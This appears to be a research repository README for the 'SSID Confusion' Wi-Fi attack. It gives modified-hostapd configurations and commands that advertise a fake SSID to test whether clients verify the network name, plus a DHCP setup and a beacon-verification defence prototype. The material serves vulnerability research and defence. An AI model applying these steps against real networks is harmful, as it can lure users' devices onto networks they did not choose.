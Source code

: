 # SSID Confusion: Making Wi-Fi Clients Connect to the Wrong Network

## Standard Attack Test

You can test the standard attack using a single Wi-Fi dongle using our modified Hostapd.
This simulates the MC-MitM attack that would be present in a real attack.
Note that the **full MC-MitM experiment**, as used in the paper to verify an end-to-end attack,
is available in the [mc-mitm](mc-mitm-ssid/README.md) directory. The below modified Hostapd
is to more easily test whether clients are vulnerable using only a single Wi-Fi dongle.

To perform the standard attack test, first create the following example `hostapd_test.conf` configuration:

	interface=wlan0
	ctrl_interface=wpaspy_ctrl
	channel=1
	ssid=connectssid
	wpa_ptk_rekey=10

Now start hostapd:

	./hostapd hostapd_test.conf

**Before connecting** execute the following command:

	./hostapd_cli -p wpaspy_ctrl raw "FAKESSID changedssid"

This will simulate an MC-MITM attacker that modifies probe responses, beacons,
and association requests to advertise a different (fake) SSID. This will also
turn off beacon protection to simulate that the attacker changes the SSID in
the beacon but cannot recalculate the beacon MMIC.

After starting Hostapd, try to connect with a client to "changessid". If the
client can successfully connect to the "changedssid" then the SSID is not
verified during connection/authentication, meaning the client, and the used
authentication method, is vulnerable. The AP will perform a group key handshake
every 10 seconds. If this handshakes completes successfully, you know that the
client is (still) connected. A successful group key handshakes can be recognized
by the following debug output:

	wlan0: STA: XX:XX:XX:XX:XX:XX WPA: group key handshake completed (RSN)
	wlan0: STA: XX:XX:XX:XX:XX:XX WPA: group key handshake completed (RSN)
	wlan0: STA: XX:XX:XX:XX:XX:XX WPA: group key handshake completed (RSN)
	...

As long as this message is being shown, then the client with the given MAC address
is connected to the AP.

## Optimized Attack Test

You can use the following steps to test whether a client is affected by the
optimized attack, i.e., to test whether it checks the SSID in beacons _after_
being connected to a network.

Now connect to the created network. Once connected, you can make hostapd
advertise a different SSID using the following command:

	./hostapd_cli -p wpaspy_ctrl raw "CHANGESSID changedssid"

If the client stays connected then the client does not verify the SSID in
beacon frames one connected. Note that you can try to ping the client to
check whether it's still connected (see the client IP address in dnsmasq).

## Simple DHCP Server

To reliably test some clients, it may be required to enable DHCP. Otherwise,
some clients may automatically disconnect because the wireless network does
not provide an IP address. To easily give clients an IP address, you can
create the following `dnsmasq.conf` file:

	interface=wlan0
	dhcp-range=192.168.100.10,192.168.100.200,8h
	dhcp-option=3,192.168.100.1
	dhcp-option=6,192.168.100.1
	server=8.8.8.8
	log-queries
	log-dhcp

Now configure the IP address for `wlan0` and start dnsmasq:

	# Set IP of interface, otherwise dnsmasq will not hand out IP address.
	ip addr add 192.168.100.1/24 dev wlan0
	dnsmasq -d -C dnsmasq.conf

Note that handing out an IP address is sufficient in most cases. In case
a client requires full Internet access, you will also have to configure
Internet forwarding and NAT.

## Defense Proof-of-Concept

The `wpa_supplicant` version in this repository can save a reference beacon
while connecting, and in the 4-way handshake, will verify the authenticity of
this reference beacon. If the authenticity cannot be verified, the handshake
will be aborted, and the client will disconnect.

To enable this defense, include `CONFIG_TESTING_OPTIONS=y` in the `.config`
file when building `wpa_supplicant`.

You can use the following `client.conf`:

	ctrl_interface=wpaspy_ctrl
	passive_scan=1
	sae_pwe=0
	
	network={
	       ssid="changedssid"
	       psk="abcdefgh"
	       key_mgmt=SAE
	
	       pairwise=CCMP
	       group=CCMP
	
	       scan_freq=2412
	       ieee80211w=2
	       beacon_prot=1
	}

Notice that passive scanning is being used to ensure the client has
a copy of the beacon before connecting.

When executing `wpa_supplicant` with extra debug output using the `-dd`
flags you will notice the following relevant debug output lines:

	Saving beacon Information Elements from scan result
	...
 	Pre-auth beacon IEs to verify

This last debug message is essential. When this message is shown, you
know that the authenticity of the beacon is being verified.

Note that Multi-Link Operation networks are not supported. In case the
AP changes the BIGTK between when the client captured the reference
beacon and the transmission of the BIGTK in the 4-way handshake, the
check will fail, and the client will disconnect. In this
proof-of-concept the BIP_GMAC algorithm is also not supported.
